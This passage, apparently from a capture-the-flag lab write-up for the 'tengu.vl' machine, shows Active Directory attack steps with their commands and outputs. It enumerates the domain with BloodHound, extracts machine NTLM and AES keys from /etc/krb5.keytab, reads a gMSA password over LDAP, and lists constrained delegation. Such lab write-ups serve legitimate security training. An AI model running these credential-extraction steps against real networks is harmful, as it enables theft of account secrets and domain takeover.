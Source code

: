 We can not enumerate domain
```
└─$ proxychains -q bloodhound-python -d 'tengu.vl' -u 't2_m.winters' -p '<REDACTED>' -c all -ns 10.10.157.37 --zip
INFO: Found AD domain: tengu.vl
```

It looks like `t2_m.winters` is a member of `Linux_Server_Admins` group. Also `NODERED$` has `ReadGMSAPassword` over `GMSA01$`

![](6.png)

We know that user has sudo rights
```
t2_m.winters@tengu.vl@nodered:~$ sudo -l
[sudo] password for t2_m.winters@tengu.vl: 
Matching Defaults entries for t2_m.winters@tengu.vl on nodered:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User t2_m.winters@tengu.vl may run the following commands on nodered:
    (ALL : ALL) ALL
```

Since this host is domain joined, we can extract machine's ntlm hash from `/etc/krb5.keytab`
```
└─$ ~/tools/red-team/KeyTabExtract/keytabextract.py krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : TENGU.VL
        SERVICE PRINCIPAL : NODERED$/
        NTLM HASH : <REDACTED>
        AES-256 HASH : 4ce11c580289227f38f8cc0225456224941d525d1e525c353ea1e1ec83138096
        AES-128 HASH : 3e04b61b939f61018d2c27d4dc0b385f
```
Let's extract the GMSA password
```
└─$ proxychains -q nxc ldap 10.10.157.37 -u 'NODERED$' -H <REDACTED> --gmsa
LDAP        10.10.157.37    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:tengu.vl)
LDAPS       10.10.157.37    636    DC               [+] tengu.vl\NODERED$:<REDACTED> 
LDAPS       10.10.157.37    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.157.37    636    DC               Account: gMSA01$              NTLM: <REDACTED>
LDAPS       10.10.157.37    636    DC               Account: gMSA02$              NTLM:
```

The account has delegation to mssql, so we can't impersonate to 
```
└─$ proxychains4 -q findDelegation.py tengu.vl/t2_m.winters:'<REDACTED>' -dc-ip dc.tengu.vl                            
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType                          DelegationType                      DelegationRightsTo          SPN Exists 
-----------  -----------------------------------  ----------------------------------  --------------------------  ----------
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/SQL:1433           No         
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql.tengu.vl:1433  Yes        
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql.tengu.vl       Yes        
gMSA01$      ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  MSSQLSvc/sql                No 
```

